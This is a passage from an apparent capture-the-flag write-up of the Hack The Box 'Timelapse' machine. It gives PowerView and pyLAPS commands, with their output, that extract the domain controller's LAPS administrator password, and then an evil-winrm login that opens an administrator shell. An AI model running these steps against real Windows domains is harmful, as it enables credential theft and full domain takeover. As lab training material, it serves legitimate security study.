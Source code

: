 ```powershell
# Create a credential object
$SecPassword = ConvertTo-SecureString 'compromised_user_password123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('compromised_user', $SecPassword)

# load powerview
Get-DomainObject windows1 -Credential $Cred -Properties "ms-mcs-AdmPwd",name
```

Although we attempted to use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to retrieve the `LAPS` password, we encountered issues due to antivirus restrictions. Instead, we utilized [PyLAPS](https://github.com/p0dalirius/pyLAPS) from our attacker machine to extract the `LAPS` password.

```shell
┌──(kali㉿kali)-[~/Documents/Windows-exploitation/active-directory/pyLAPS]
└─$ python3 pyLAPS.py --action get -d "timelapse.htb" -u "svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV'
                 __    ___    ____  _____
    ____  __  __/ /   /   |  / __ \/ ___/
   / __ \/ / / / /   / /| | / /_/ /\__ \   
  / /_/ / /_/ / /___/ ___ |/ ____/___/ /   
 / .___/\__, /_____/_/  |_/_/    /____/    v1.2
/_/    /____/           @podalirius_           
    
[+] Extracting LAPS passwords of all computers ... 
  | DC01$                : {;f3D4@Gr0r3eFCDf7s2j8/+
[+] All done!
```

```shell
┌──(kali㉿kali)-[~/Documents/ctf/htb/timelapse]
└─$ evil-winrm -i 10.10.11.152 -u 'administrator' -p '{;f3D4@Gr0r3eFCDf7s2j8/+' -P 5986 -S 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Finally, armed with the `LAPS` password, we successfully logged in as `administrator` using `Evil-WinRM`.

# CONCLUSION
